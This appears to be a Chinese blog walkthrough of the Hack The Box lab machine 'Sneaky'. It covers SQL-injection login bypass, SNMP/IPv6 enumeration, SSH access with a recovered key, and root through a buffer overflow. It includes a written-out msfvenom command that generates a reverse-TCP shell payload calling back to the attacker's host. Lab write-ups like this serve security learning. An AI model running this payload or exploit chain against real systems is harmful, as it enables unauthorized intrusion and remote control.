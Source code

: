 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/nRD4DyJdCULXl_wqcWC1Cw)

一个每日分享渗透小技巧的公众号![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPTQKiaXksbZia7PmHLPX2vnCWsznInTj3b9TFYtTDIYG6lDGJZYYSv72NsVWF24Kjlo4MT29tEOQSg/640?wx_fmt=png)

  

  

大家好，这里是 **大余安全** 的第 **102** 篇文章，本公众号会每日分享攻防渗透技术给大家。

![](https://mmbiz.qpic.cn/mmbiz_png/QkjvmbC1CD0zJ9hBlrElSv4ZqETGn3otgH8VHW1QuoOec3JMAbUyr0iaurJy4DPHBwUsDXiadJ3aha4CvJwyYVew/640?wx_fmt=png)

靶机地址：https://www.hackthebox.eu/home/machines/profile/19

靶机难度：中级（5.0/10）

靶机发布日期：2017 年 10 月 29 日

靶机描述：

Sneaky, while not requiring many steps to complete, can be difficult for some users. It explores enumeration through SNMP and has a beginner level buffer overflow vulnerability which can be leveraged for privilege escalation.

请注意：对于所有这些计算机，我是通过平台授权允许情况进行渗透的。我将使用 Kali Linux 作为解决该 HTB 的攻击者机器。这里使用的技术仅用于学习教育目的，如果列出的技术用于其他任何目标，我概不负责。

![](https://mmbiz.qpic.cn/mmbiz_png/1prMbIpCa3humOrLAChJmsjMl4Kxia7vzrQE59ny2bGibWz5Cr8YzNvia9NXzt8O2jiclnVwHYxubpFU1Q6dX9FRCQ/640?wx_fmt=png)

一、信息收集

![](https://mmbiz.qpic.cn/mmbiz_png/5PYA1G5YGGkjAN1M3sw2tjaT2EzjYhfiax6biaK6IUQxeAFY5cgZQtGqXrMp1oRbNic8EDqpxsg5BjArxBhibLM5XQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KP2SlNI0o6bSAHl3LqgN91SjPJ499E66Veic6FPiaxUyUf7vDL7ibM2H7oqW9zU49bnmXW5AD78ARueA/640?wx_fmt=png)

可以看到靶机的 IP 是 10.10.10.20....

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KP2SlNI0o6bSAHl3LqgN91SibDibre11mlYviaBlq00EtzBjtxaJot7yaMcycjHYu7uiah2nhtLRhiasZw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KP2SlNI0o6bSAHl3LqgN91S3PafYefzmR1vdsqohI4d3Nn0SEIuySotEXspWydVAhVt9pwnlRRP6g/640?wx_fmt=png)

Nmap 扫描仅发现开放了 Apache 和 SNMP 两个服务...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KP2SlNI0o6bSAHl3LqgN91SibuM8qknKbrC3bGJal1mCZZ0NvWuXIDlenZzqwK9hgj7b1Opuuu5rog/640?wx_fmt=png)

80 端口上没什么可用的信息... 直接枚举爆破看看...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KP2SlNI0o6bSAHl3LqgN91Sn88LbdzyC23MmNHjO8CAVEiakOaw8uqTwUI96DltYxfuVAmiaibE1ujlg/640?wx_fmt=png)

枚举发现了 dev 目录...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KP2SlNI0o6bSAHl3LqgN91SjghJHhgK8eV7StBabo2oNONk2uq6Xf5KgJ9tBRib1AzMvjI4JNABiclg/640?wx_fmt=png)

dev 目录提供了此页面... 通过利用 burpsuit 拦截尝试 sql 注入枚举爆破...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KP2SlNI0o6bSAHl3LqgN91SgLYkH9R7MnU0bdN7vXH6mFxuyY4yp2NC5UpUOM7x4vyM6WOnuvasKQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KP2SlNI0o6bSAHl3LqgN91SicxneQDuRIU4tOLXZxJnRAROI1PWPQxrib9ibLVtwTq0oP9ficic5kpic7nw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KP2SlNI0o6bSAHl3LqgN91SIwtdGPCSr84dA3ibsdep7BdRjjIib5MTCl2nhyKG03oc68qeRY1nL0Aw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KP2SlNI0o6bSAHl3LqgN91SooIGfu55IcM97EH6mGRS9l0FsyibpeObo1VVH06GJvXav12icGdQoSQg/640?wx_fmt=png)

可看到通过尝试通用的 sql 注入代码... 成功登录...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KP2SlNI0o6bSAHl3LqgN91SMGaiauk3f1X3mWtUEg8NiaFEWI4QNcGM9pq120FLzrZ1wBWqKF5zNdIQ/640?wx_fmt=png)

登录后获得了两个用户名信息：

```
admin和thrasivoulos
```

以及 rsa 的 key，这里很熟悉吧... 就在前面两三章就做了两次一模一样的环境...

思路就是利用 rsa 的 key 通过 ssh 服务访问到用户... 从而在用户提权 root... 但是 nmap 只发现开放了 http 和 snmp 服务... 未开放 ssh 服务？？

这里熟悉的小伙伴就知道，snmp 关联着 ipv6 信息... 可以参考：

```
https://www.jianshu.com/p/dc2dc0222940
```

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KP2SlNI0o6bSAHl3LqgN91SqaFkVm8hGSGUpa0szSGMyfKMvibU5Nwl74sGZmPNhlrBnlsazOcSkBA/640?wx_fmt=png)

将 key 保存到本地...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KP2SlNI0o6bSAHl3LqgN91SBQoyE7z1lVqkoAcyAicOXZ0uNRYOO0EQwxaYkz9tKibocoyeOpNicv49A/640?wx_fmt=png)

利用 snmpwalk 命令来和 snmp 主机进行交换数据...

可以看到存在可用的 IPv6 接口信息... 需要获得靶机的 ipv6 信息...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KP2SlNI0o6bSAHl3LqgN91SD5g4NtGpP0Jg1ornGWOq7RgRPQa5kDJbnSylMMDcEIYnLzDhYqgvibA/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KP2SlNI0o6bSAHl3LqgN91S1zFVryGIvWjmgUricPTrxX6jkD5Zk65ZxrcKWGVznRKMNJJnbj9FMicw/640?wx_fmt=png)

可以看到 Enyx 专门用来获取 ipv6 的信息工具... 利用即可...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KP2SlNI0o6bSAHl3LqgN91SsPqWfR5GJTbGxIDJ3HLAv2zc3JJibHHJHRwdLvdhPr0qAFqCJRXPuTw/640?wx_fmt=png)

通过利用 enyx 获取了所有接口的 ipv6 信息...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KP2SlNI0o6bSAHl3LqgN91S7lPGokO0ibqdsoh6NK0Dvb3ic22aiaZeTWUujEEnsK2GpibBAMD0NAORIA/640?wx_fmt=png)

检查发现...nmap 扫描 IPv6 信息对方是开启了 ssh 的... 那这就直接登录即可...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KP2SlNI0o6bSAHl3LqgN91SrDaPXdfYYCbHFGbXXNCPuMjD2XNX6aBPWCN91LCLcE3tJCmicqSbbXw/640?wx_fmt=png)

直接利用前面获取的信息量... 成功登录了，并获得了 user 信息...（这里就不多说了，连续靶机都是类似环境）

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KP2SlNI0o6bSAHl3LqgN91SyTM5lfnD6GYLRibRxQIorqYStwZON86kqYAbnDhLtOib2uR0DwvHibHfw/640?wx_fmt=png)

直接通过 LinEnum.sh 枚举所有信息量...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KP2SlNI0o6bSAHl3LqgN91SENReujFBx8jkyVOI4pslRdyyR8KeoFbuMh8UreUDRaxTCL14kOOs8g/640?wx_fmt=png)

在查看到 SUID 位时，resrwsr 的 chal 程序存在异常... 应该是缓冲区溢出提权了...（这里环境和前面一台靶机差不多... 雷同，那台也是 ssh 登录后缓冲区溢出提权.. 那台是可以直接利用 / bin/sh 写入程序直接获得 root...）

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KP2SlNI0o6bSAHl3LqgN91SmWFWESyBvBo0Fq0rjYoh2RgLbKxh5kXjTLvWuDZJenxgrwIZduvtNQ/640?wx_fmt=png)

下载到本地分析...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KP2SlNI0o6bSAHl3LqgN91S4neBmtSVfMOOva7lgKsj7n91T1LNBV0YY12zLJgE4HGchG1EoKzeWg/640?wx_fmt=png)

这里直接快速了... 做了太多缓冲区溢出了... 获得了偏移量 362...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KP2SlNI0o6bSAHl3LqgN91Srz0Pbt43ShhrY0y2DbRUNEdWCW14k5zdDAMezJC2A3TqcIuNA12XNw/640?wx_fmt=png)

```
msfvenom -a x86 --platform -linux -p linux/x86/shell_reverse_tcp LHOST=10.10.14.51 LPORT=6666 -e x86/alpha_mixed -f python
```

这里我利用了 msf 生成的 shell... 也可以利用原生的 shell 简单... 很多 shell 自行 google

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KP2SlNI0o6bSAHl3LqgN91SAOgN2xSpKrWibEDDA5SNOFNq4fmxRqO84yCkXdjjx8rP0hErSXhGh7Q/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KP2SlNI0o6bSAHl3LqgN91S2tndz2jf4rgPImANSXcqBOass7vtzrJtfWibvpQIDl9soddmD8PvHSg/640?wx_fmt=png)

知道偏移量，在获取 EIP 即可提权... 这里我编写的简单 shell 脚本 nop 是 x90，直接对程序 x/100x $esp-200 发现了很多可以利用的 EIP，这里的都可以利用... 直接写入...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KP2SlNI0o6bSAHl3LqgN91SpdpUiaRTBMPrJcXkuJgOOcfwoIx9ibEoaTJDVVmQKQ8nG9UxjxrwYEicg/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/3o0KfEJBubprpFZq7LUo4fMqYMibzRyWHAhch6SSt5O1C9iaJM8DjvdqI6ia6G5ASibnk9t5eqia75x7xOYE6ZcK1Mw/640?wx_fmt=png)

这里我利用了 788 的 EIP，别的也试过也成功... 或者不需要 NOP 的情况直接 google /bin/sh 源直接利用原生 EIP 提权也行...

成功注入 shell 提权 root，获得了 root.txt 信息...

由于我们已经成功得到 root 权限查看 user 和 root.txt，因此完成这台中级的靶机，希望你们喜欢这台机器，请继续关注大余后期会有更多具有挑战性的机器，一起练习学习。

如果你有其他的方法，欢迎留言。要是有写错了的地方，请你一定要告诉我。要是你觉得这篇博客写的还不错，欢迎分享给身边的人。

![](https://mmbiz.qpic.cn/mmbiz_png/JVBXN9dKPiaPX1yX1KISqoLbnBqLd7swsSoseicbJFNXQVobDiam5cf5fbLib7LhsDggALPut4fGxxz4qnJDXeicf7g/640?wx_fmt=png)

如果觉得这篇文章对你有帮助，可以转发到朋友圈，谢谢小伙伴~

![](https://mmbiz.qpic.cn/mmbiz_png/c5xrRn4430AnqkfAJc38Vpnc5XiaADLTjiciciaibYU4EHw3Nuh7YMtuB0hz3sb8Em9iatt5skAsibuuysPLdLY5LtWOw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/p3lIbvldZiabdI5iaCb3icRhtygUuo2sp6Hcdq0ANlpy5W3gL628uq032jsoVnGnl6HdGrgDXjfazFtkp6IInibDdQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPqjaFWwyrrhiciahSpOibxqKvSIFX0iaPcG00CjYIwQDwIDeIicmFMlOVNyhWYVSE8pJK566UK3YOUNWQ/640?wx_fmt=png)

随缘收徒中~~ **随缘收徒中~~** **随缘收徒中~~**

欢迎加入渗透学习交流群，想入群的小伙伴们加我微信，共同进步共同成长！

![](https://mmbiz.qpic.cn/mmbiz_png/ndicuTO22p6ibN1yF91ZicoggaJJZX3vQ77Vhx81O5GRyfuQoBRjpaUyLOErsSo8PwNYlT1XzZ6fbwQuXBRKf4j3Q/640?wx_fmt=png)  

大余安全

一个全栈渗透小技巧的公众号

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPTQKiaXksbZia7PmHLPX2vnCSsnsc7MHh257oYRic1MOT8qibABNUEnTq9DUL7QBwnS52EheJf4m8iaTQ/640?wx_fmt=png)
